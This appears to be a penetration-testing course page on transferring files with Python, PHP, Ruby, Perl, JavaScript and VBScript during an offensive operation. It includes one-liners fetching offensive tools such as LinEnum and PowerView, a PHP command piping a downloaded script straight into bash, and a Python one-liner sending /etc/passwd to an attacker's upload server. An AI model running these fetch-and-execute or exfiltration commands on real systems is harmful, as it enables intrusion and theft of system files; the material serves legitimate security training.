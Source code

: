 It's common to find different programming languages installed on the machines we are targetting. Programming languages such as Python, PHP, Perl, and Ruby are commonly available in Linux distributions but can also be installed on Windows, although this is far less common.

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

According to Wikipedia, there are around [700 programming languages](https://en.wikipedia.org/wiki/List_of_programming_languages), and we can create code in any programing language, to download, upload or execute instructions to the OS. This section will provide a few examples using common programming languages.

---

## Python

Python is a popular programming language. Currently, version 3 is supported, but we may find servers where Python version 2.7 still exits. `Python` can run one-liners from an operating system command line using the option `-c`. Let's see some examples:

#### Python 2 - Download

  Python 2 - Download

```shell
Pwn1Sec@htb[/htb]$ python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### Python 3 - Download

  Python 3 - Download

```shell
Pwn1Sec@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---

## PHP

`PHP` is also very prevalent and provides multiple file transfer methods. [According to W3Techs' data](https://w3techs.com/technologies/details/pl-php), PHP is used by 77.4% of all websites with a known server-side programming language. Although the information is not precise, and the number may be slightly lower, we will often encounter web services that use PHP when performing an offensive operation.

Let's see some examples of downloading files using PHP.

In the following example, we will use the PHP [file_get_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file_put_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

#### PHP Download with File_get_contents()

  PHP Download with File_get_contents()

```shell
Pwn1Sec@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

#### PHP Download with Fopen()

  PHP Download with Fopen()

```shell
Pwn1Sec@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

#### PHP Download a File and Pipe it to Bash

  PHP Download a File and Pipe it to Bash

```shell
Pwn1Sec@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Note:** The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

---

## Other Languages

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

---

#### Ruby - Download a File

  Ruby - Download a File

```shell
Pwn1Sec@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---

#### Perl - Download a File

  Perl - Download a File

```shell
Pwn1Sec@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---

## JavaScript

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

Code: javascript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

#### Download a File Using JavaScript and cscript.exe

  Download a File Using JavaScript and cscript.exe

```cmd
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---

## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

Code: vbscript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

#### Download a File Using VBScript and cscript.exe

  Download a File Using VBScript and cscript.exe

```cmd
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---

## Upload Operations using Python3

If we want to upload a file, we need to understand the functions in a particular programming language to perform the upload operation. The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

#### Starting the Python uploadserver Module

  Starting the Python uploadserver Module

```shell
Pwn1Sec@htb[/htb]$ python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Uploading a File Using a Python One-liner

  Uploading a File Using a Python One-liner

```shell
Pwn1Sec@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Let's divide this one-liner into multiple lines to understand each piece better.

Code: python

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.
